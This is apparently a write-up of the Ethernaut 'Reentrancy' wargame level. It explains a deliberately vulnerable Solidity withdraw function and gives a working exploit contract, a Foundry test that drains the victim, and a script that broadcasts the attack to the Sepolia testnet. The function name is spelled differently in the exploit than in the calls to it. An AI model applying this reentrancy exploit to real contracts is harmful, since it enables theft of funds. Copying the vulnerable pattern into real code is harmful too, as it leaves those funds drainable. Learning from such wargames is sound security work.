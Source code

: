 ## 👾 10. Reentrancy

<br>


### tl; dr

<br>

* contracts may call other contracts by function calls or transferring ether. they can also call back contracts that called them (*i.e.*, reentering) or any other contract in the call stack.
    - a **reentrancy attack** can happen when a contract is reentered in an invalid state. this can happen if the contract calls other untrusted contracts or transfers funds to untrusted accounts.
    - state in the blockchain is considered valid when the contract-specific invariants hold true. contract invariants are properties of the program state that are expected always to be true. for instance, the value of owner state variable, the total token supply, etc., should always remain the same.

- in its simplest version, an attacking contract exploits vulnerable code in another contract to seize the flow of operation or funds.
    - for example, an attacker could repeatedly call a `withdraw()` or `receive()` function (or similar balance updating function) before a vulnerable contract’s balance is updated.

* **[for a detailed review on reentrancy attacks, check my mirror post](https://mirror.xyz/go-outside.eth/7Q5DK8cZNZ5CP6ThJjEithPvjgckA24D2wb-j0Ps5-I)**.

<br>
  
<p align="center">
<img width="300" src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/c07d1819-ecbd-4a82-9a6c-aaded440da1b">
</p>



<br>

```solidity
contract Reentrance {
    mapping(address => uint256) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to] += msg.value;
    }

    function balanceOf(address _who) public view returns (uint256 balance) {
        return balances[_who];
    }

    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool success, ) = msg.sender.call{value: _amount}("");
            if (success) {
                _amount;
            }
            // unchecked to prevent underflow errors
            unchecked {
                balances[msg.sender] -= _amount; 
            }
        }
    }

    receive() external payable {}
}
```


<br>

---

### discussion

<br>

* the `Reentrance` contract starts with a state variable for `balances`:

<br>

```solidity
contract Reentrance {
  mapping(address => uint256) public balances;
```

<br>

* then we have a getter and a setter function for `donate()` (whoever donates some `ether` becomes part of `balances`) and `balanceOf()`: 

<br>

```solidity
function donate(address _to) public payable {
     balances[_to] = balances[_to] += msg.value;
}

function balanceOf(address _who) public view returns (uint256 balance) {
    return balances[_who];
}
```

<br>

* then, we have the `withdraw(amount)` function, which is the source of our reentrancy attack. 
    - for instance, note how it already breaks the **[`checks -> effects -> interactions` pattern](https://docs.soliditylang.org/en/v0.8.21/security-considerations.html#use-the-checks-effects-interactions-pattern)**.
    - in other words, if `msg.sender` is a (attacker) contract and since `balances` deduction is made after the call, the contract can call a `fallback()` to cause a recursion that sends the value multiple times before reducing the sender's balance.

<br>

```solidity
    function withdraw(uint256 _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool success, ) = msg.sender.call{value: _amount}("");
            if (success) {
                _amount;
            }
            // unchecked to prevent underflow errors
            unchecked {
                balances[msg.sender] -= _amount; 
            }
        }
    }
```
<br>

<p align="center">
<img src="https://github.com/go-outside-labs/ethernaut-foundry-detailed-solutions-sol/assets/138340846/bed1dd0f-707c-408a-88d8-ee04693667b9" width="50%" align="center"/></p>


<br><br>

* finally, we see a blank `receive()` function, which receives any `ether` sent to the contract without specifically calling `donate()`.
    - `receive()` is a new keyword in solidity 0.6.x, and it is used as a `fallback()` function for empty calldata (or any value) that is only able to receive ether. 
    - remember that solidity’s `fallback()` function is executed if none of the other functions match the function identifier or no data was provided with the function call (and it can be optionally `payable`). 

<br>

```solidity
receive() external payable {}
```



<br>


----

### solution


<br>

* we write the following exploit, located at `src/10/ReentrancyExploit.sol`, where the attack occurs at `run()` and `receive()`. the function `withdrawtoHacker()` can be called afterwords to withdraw the balance from the `ReentrancyExploit` contract:

<br>

```solidity
contract ReentrancyExploit {

    Reentrance private level;
    bool private _ENTERED;
    address private owner;
    uint256 private initialDeposit;

    constructor(Reentrance _level) {
        owner = msg.sender;
        level = _level;
        _ENTERED = false;
    }

    function run() public payable {
        require(msg.value > 0, "must send some ether");
        initialDeposit = msg.value;
        level.donate{value: msg.value}(address(this));
        level.withdraw(initialDeposit);
        level.withdraw(address(level).balance);
    }

    function withdrawtoHacker() public returns (bool) {
        uint256 hackerBalancer = address(this).balance;
        (bool success, ) = owner.call{value: hackerBalancer}("");
        return success;
    }

    receive() external payable {
        if (!_ENTERED) {
            _ENTERED = true;
            level.withdraw(initialDeposit);
        }
    }
}

```

<br>

* which can be tested with `test/10/Reentrancy.t.sol`:

<br>

```solidity
contract ReentrancyTest is Test {

    Reentrance public level;
    ReentrancyExploit public exploit;
    address payable instance = payable(vm.addr(0x10053)); 
    address hacker = vm.addr(0x1337); 
    uint256 initialDeposit = 0.01 ether;
    uint256 initialVictimBalance = 200 ether;

    function setUp() public {
        vm.prank(instance);  
        vm.deal(instance, initialVictimBalance);
        vm.deal(hacker, initialDeposit);

        level = new Reentrance();
        level.donate{value: initialVictimBalance}(instance);
    }

    function testReentrancyHack() public {

        vm.startPrank(hacker);

        exploit = new ReentrancyExploit(level);
        
        ////////////////////////////
        // drain the victim contract
        ////////////////////////////

        assert(hacker.balance == initialDeposit);
        assert(instance.balance == initialVictimBalance);
        assert(address(level).balance == initialVictimBalance);
        assert(address(exploit).balance == 0);

        exploit.run{value: initialDeposit}();
        assert(address(exploit).balance == initialVictimBalance + initialDeposit);

        ///////////////////////////////////////////
        // withdraw from ReentrancyExploit contract
        ///////////////////////////////////////////        
        assert(hacker.balance == 0);
        bool success = exploit.withdrawToHacker();
        
        assert(success);
        assert(hacker.balance == initialVictimBalance + initialDeposit);
        assert(address(exploit).balance == 0);

        vm.stopPrank();
    }
}
```

<br>

* by running:

<br>

```shell
> forge test --match-contract ReentrancyTest -vvvv    
```



<br>

* finally, the solution can be submitted with `script/10/Reentrancy.s.sol`:

<br>

```solidity
contract Exploit is Script {

        address payable instance = payable(vm.envAddress("INSTANCE_LEVEL10"));  
        address hacker = vm.rememberKey(vm.envUint("PRIVATE_KEY"));    
        Reentrance level = Reentrance(instance); 
        ReentrancyExploit exploit;
        uint256 initialDeposit = 0.001 ether;
          
        function run() external {

            vm.startBroadcast(hacker);
            
            exploit = new ReentrancyExploit(level);
            exploit.run{value: initialDeposit}();
            bool success = exploit.withdrawToHacker();
            assert(success);

            vm.stopBroadcast();
    }
}
```

<br>

* by running:

<br>

```shell
> forge script ./script/10/Reentrancy.s.sol --broadcast -vvvv --rpc-url sepolia
```

<br>


---


### pwned...


<br>

  
<p align="center">
<img width="400" src="https://github.com/go-outside-labs/ethernaut-foundry-writeups-sol/assets/138340846/ba3f82a3-00c0-43f9-a423-588d7f6e4c70">
</p>



<br>

